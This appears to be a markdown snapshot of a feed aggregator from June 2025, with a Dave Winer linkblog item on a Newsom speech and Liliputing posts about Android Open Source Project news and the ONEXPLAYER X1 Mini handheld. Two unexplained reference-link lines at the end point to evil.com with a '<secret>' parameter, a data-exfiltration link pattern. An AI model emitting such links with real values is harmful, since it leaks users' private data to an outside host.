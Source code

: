 ```yaml
---
title: snapshots
updated: 2025-06-12 14:07:58
---
```


# snapshots

(date: 2025-06-12 14:07:58)

---

**@Dave Winer's linkblog** (date: 2025-06-12, from: Dave Winer's linkblog)

If you haven&#39;t heard Governor Newsom&#39;s speech, it&#39;s 8 minutes long and he nails it. 

<br> 

<https://www.youtube.com/watch?v=pXQQNUeb4Sw>

---

## Lilbits: Android Open Source Project isn’t dead, Nothing Phone (3) will be available in the US, and a tiny new RISC-V board

date: 2025-06-12, from: Liliputing

<p>Earlier this year Google revealed that while it will continue to support the Android Open Source Project by releasing source code for each new build of the operating system, the actual development would start taking place in private. So when the company released Android 16 this week and some people noticed that Google was had [&#8230;]</p>
<p>The post <a href="https://liliputing.com/lilbits-android-open-source-project-isnt-dead-nothing-phone-3-will-be-available-in-the-us-and-a-tiny-new-risc-v-board/">Lilbits: Android Open Source Project isn&#8217;t dead, Nothing Phone (3) will be available in the US, and a tiny new RISC-V board</a> appeared first on <a href="https://liliputing.com">Liliputing</a>.</p>
 

<br> 

<https://liliputing.com/lilbits-android-open-source-project-isnt-dead-nothing-phone-3-will-be-available-in-the-us-and-a-tiny-new-risc-v-board/>

---

## ONEXPLAYER X1 Mini handheld gaming PC now available with an AMD Ryzen AI 9 HX 370 Strix Point processor

date: 2025-06-12, from: Liliputing

<p>The ONEXPLAYER X1 Mini is a handheld gaming PC with an 8.8 inch, 2560 x 1600 pixel, 144 Hz display, a pair of detachable controllers, and an AMD Ryzen processor. When it first launched a year ago as a slightly smaller alternative to the 10.95 inch ONEXPLAYER X1, the &#8220;mini&#8221; was powered by an AMD Ryzen [&#8230;]</p>
<p>The post <a href="https://liliputing.com/onexplayer-x1-mini-handheld-gaming-pc-now-available-with-an-amd-ryzen-ai-9-hx-370-strix-point-processor/">ONEXPLAYER X1 Mini handheld gaming PC now available with an AMD Ryzen AI 9 HX 370 Strix Point processor</a> appeared first on <a href="https://liliputing.com">Liliputing</a>.</p>
 

[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;